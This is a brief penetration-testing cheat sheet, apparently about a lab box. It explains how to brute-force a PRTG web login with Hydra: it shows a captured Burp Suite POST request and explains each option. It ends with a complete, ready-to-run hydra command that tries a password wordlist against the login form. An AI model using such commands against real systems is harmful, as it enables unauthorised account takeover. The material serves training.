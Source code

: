 # Hydra

### http brute

The request in burp suite looks like:

```
POST /public/checklogin.htm HTTP/1.1
Host: 10.10.10.152
Content-Length: 39
Cache-Control: max-age=0
Origin: http://10.10.10.152
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.4.1366182311.1585918308; _gid=GA1.4.333900560.1586085370
Connection: close

loginurl=&username=admin&password=admin
```

`-l prtgadmin`  
use login prtgadmin  
`-P /usr/share/john/password.lst`  
use passwords from /usr/share/john/password.lst  
`http-post-form`  
for use POST requests  
`"/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed"`  
**/public/checklogin.htm** - relate to POST /public/checklogin.htm HTTP/1.1  
**:loginurl=&username=^USER^&password=^PASS^** - fill username with username. In our case prtgadmin. Fill password with passwords from password list we specified  
**:Your login has failed** - ignore responce if there such sting in it. If there are no such string in response - consider, that password was found  

```sh
hydra -v -l prtgadmin -P /usr/share/john/password.lst 10.10.10.152 http-post-form "/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed" -t 5 -I -
```
